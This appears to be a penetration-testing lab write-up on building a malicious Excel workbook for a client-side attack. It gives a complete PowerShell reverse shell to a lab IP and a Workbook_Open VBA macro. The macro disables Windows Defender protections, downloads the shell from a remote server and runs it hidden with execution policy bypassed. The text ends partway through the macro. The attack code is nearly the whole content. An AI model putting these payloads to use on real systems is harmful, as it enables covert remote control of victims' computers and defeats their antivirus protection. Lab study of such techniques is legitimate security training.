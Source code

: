 In this lab, we will be going through how to use embedded Excel Macros, to carry out a malicious client side exploit on a target machine.

Excel macros are automated tasks created using VBA (Visual Basic for Applications) in Excel. They simplify repetitive tasks by running pre-written code, either recorded or manually coded, to perform actions automatically within Excel.

Reverse powershell script:
```powershell
echo '$LHOST = "192.168.100.100"; $LPORT = 2222; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()' > 'C:\Users\Administrator\Desktop\Malicious Files\revshell.ps1'
```
# Creating the VBA Script
Excel macros run inside Visual Basic for Applications (VBA). When you wire code to the Workbook_Open event, that code fires the moment the user opens the file and clicks Enable Content.

The VBA script that will disable Windows Defender:
```
Private Sub Workbook_Open()
    Call RunPowerShellScript
End Sub

Sub RunPowerShellScript()
' Define the PowerShell script to disable Windows Defender, download the reverse shell, and execute
Dim command As String
command = "powershell.exe -nop -w hidden -command ""& {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableBehaviorMonitoring $true; Set-MpPreference -DisableBlockAtFirstSeen $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisablePrivacyMode $true; Invoke-WebRequest -Uri http://192.168.100.100:8000/revshell.ps1 -OutFile C:\Users\Administrator\revshell.ps1; }"""
command2 = "powershell.exe -nop -w hidden -command ""& {Start-Sleep -Seconds 5; Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\Administrator\revshell.ps1'}"""

' Run the PowerShell script
Shell "cmd.exe /c " & command, vbHide
Shell "cmd.exe /c " & command2, vbHide

